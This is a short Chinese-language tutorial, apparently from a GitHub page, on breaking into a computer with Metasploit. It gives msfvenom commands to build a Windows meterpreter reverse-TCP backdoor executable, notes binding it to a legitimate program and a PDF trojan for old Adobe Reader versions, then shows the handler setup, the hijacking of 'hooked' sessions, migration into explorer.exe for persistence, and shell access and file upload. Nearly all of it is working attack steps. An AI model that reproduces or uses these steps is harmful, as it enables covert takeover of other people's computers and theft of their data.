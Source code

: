 利用msf入侵电脑
# 1. 准备阶段
需要的工具

msfvenom、msfconsole

执行命令：
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<本地IP> LPORT=<本地端口>  -f exe -o hacker.exe
```
参数：
```
-p payloads

-f 输出格式

-o 输入地址

-e 编码方式（msfvenom -l -encoder 可以查看能使用的编码）

-x | -k 绑定程序 （例如 –x C:\nomal.exe –k –f exe –o C:\shell.exe）
```
<img width="500px" src="https://gitee.com/naiswang/images/raw/master/20191202161139.png"/>

注： 上述代码不能拿生成pdf文件， 使用如下代码来生成pdf木马， 这个pdf木马是针对于adobe的一个漏洞，版本为Adobe Reader 8.2.4 - 9.3.4，  所以只有这些版本打开这个pdf木马才有用
<img width="500px" src="https://gitee.com/naiswang/images/raw/master/20191202174058.png"/>

即生成后门文件 hacker.exe
把它放到目标电脑上面（这里我放在WIN10 上面）

如果被攻击的主机为linux， 则需要在linux上为该文件赋予权限chmod 777 hacker.exe

执行命令：
```
msfconsole （运行msfconsole）
msf > use exploit/multi/handler （选择模块）
msf exploit(handler) > exploit -z -j （后台执行）
```
<img width="500px" src="https://gitee.com/naiswang/images/raw/master/20191202161456.png"/>
这个时候等待目标打开我们的hacker.exe，打开即上钩了
```
msf exploit(handler) > sessions（查看上钩的用户）
```
<img width="500px" src="https://gitee.com/naiswang/images/raw/master/20191202161558.png"/>
```
msf exploit(handler) > sessions -i 1（选择需要攻击的用户，这里选择第 1 个）
```

# 2. 攻击
```
run migrate -n explorer.exe  将木马线程迁移到进程explorer.exe上，这样，即使用户关闭了这个木马程序，也不会断开后门的连接。

background 将当前会话移动到背景(激活会话： 在msfconsole中输入sessions命令, 然后使用session id号来激活)

shell （执行shell， 对目标主机shell操作）

getwd (查看所在目标主机的目录)

getlwd (查看本地目录)

upload /root/ssh.apk C:\\   （将/root/ssh.apk文件传到目标主机的C盘下）

```